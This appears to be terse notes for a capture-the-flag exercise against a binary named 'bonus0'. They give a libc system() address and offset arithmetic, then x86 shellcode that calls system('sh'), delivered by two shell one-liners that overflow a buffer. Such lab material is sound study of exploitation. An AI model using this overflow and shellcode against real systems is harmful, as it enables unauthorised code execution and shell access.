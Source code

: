 system addresse = 0xb7e6b060 = \x60\xb0\xe6\xb7
 + offset = 0xb7e6b060 + 0x40000701 =  0xF7E6B761 = \x61\xb7\xe6\xf7

\x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\x60\xb0\xe6\xb7\xc9\xc3

strcat = 0x8048390 sans offset



(python -c "print('\x\x\x\x' + 'a'*4092)"; echo $(echo "\x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\x61\xb7\xe6\xf7\xc9\xc3")) | ./bonus0

(python -c "print('a'*409)"; echo $(python -c "print ('a'*96 + '\x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\x61\xb7\xe6\xf7\xc9\xc3')")) | ./bonus0